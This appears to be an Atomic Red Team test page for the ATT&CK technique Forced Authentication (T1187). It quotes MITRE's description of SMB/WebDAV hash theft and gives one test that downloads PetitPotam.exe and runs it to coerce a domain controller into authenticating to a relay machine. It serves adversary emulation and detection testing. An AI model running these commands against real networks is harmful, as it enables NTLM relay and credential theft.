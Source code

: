 # T1187 - Forced Authentication
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1187)
<blockquote>Adversaries may gather credential material by invoking or forcing a user to automatically provide authentication information through a mechanism in which they can intercept.

The Server Message Block (SMB) protocol is commonly used in Windows networks for authentication and communication between systems for access to resources and file sharing. When a Windows system attempts to connect to an SMB resource it will automatically attempt to authenticate and send credential information for the current user to the remote system. (Citation: Wikipedia Server Message Block) This behavior is typical in enterprise environments so that users do not need to enter credentials to access network resources.

Web Distributed Authoring and Versioning (WebDAV) is also typically used by Windows systems as a backup protocol when SMB is blocked or fails. WebDAV is an extension of HTTP and will typically operate over TCP ports 80 and 443. (Citation: Didier Stevens WebDAV Traffic) (Citation: Microsoft Managing WebDAV Security)

Adversaries may take advantage of this behavior to gain access to user account hashes through forced SMB/WebDAV authentication. An adversary can send an attachment to a user through spearphishing that contains a resource link to an external server controlled by the adversary (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)), or place a specially crafted file on navigation path for privileged accounts (e.g. .SCF file placed on desktop) or on a publicly accessible share to be accessed by victim(s). When the user's system accesses the untrusted resource it will attempt authentication and send information, including the user's hashed credentials, over SMB to the adversary controlled server. (Citation: GitHub Hashjacking) With access to the credential hash, an adversary can perform off-line [Brute Force](https://attack.mitre.org/techniques/T1110) cracking to gain access to plaintext credentials. (Citation: Cylance Redirect to SMB)

There are several different ways this can occur. (Citation: Osanda Stealing NetNTLM Hashes) Some specifics from in-the-wild use include:

* A spearphishing attachment containing a document with a resource that is automatically loaded when the document is opened (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)). The document can include, for example, a request similar to <code>file[:]//[remote address]/Normal.dotm</code> to trigger the SMB request. (Citation: US-CERT APT Energy Oct 2017)
* A modified .LNK or .SCF file with the icon filename pointing to an external reference such as <code>\\[remote address]\pic.png</code> that will force the system to load the resource when the icon is rendered to repeatedly gather credentials. (Citation: US-CERT APT Energy Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PetitPotam](#atomic-test-1---petitpotam)


<br/>

## Atomic Test #1 - PetitPotam
This module runs the Windows executable of PetitPotam in order to coerce authentication for a remote system.

**Supported Platforms:** Windows


**auto_generated_guid:** 485ce873-2e65-4706-9c7e-ae3ab9e14213





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| captureServerIP | Computer IP to use to receive the authentication (ex. attacker machine used for NTLM relay) | string | 10.0.0.3|
| targetServerIP | Computer IP to force authentication from (ex. domain controller) | string | 10.0.0.2|
| efsApi | EFS API to use to coerce authentication | string | 1|
| petitpotam_path | PetitPotam Windows executable | path | $env:TEMP&#92;PetitPotam.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
& "#{petitpotam_path}" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
```




#### Dependencies:  Run with `powershell`!
##### Description: PetitPotam binary must exist on disk and at specified location (#{petitpotam_path}).
And the computer must be domain joined (implicit authentication).
##### Check Prereq Commands:
```powershell
if (Test-Path "#{petitpotam_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/topotam/PetitPotam/blob/2ae559f938e67d0cd59c5afcaac67672b9ef2981/PetitPotam.exe?raw=true" -OutFile "#{petitpotam_path}"
```




<br/>
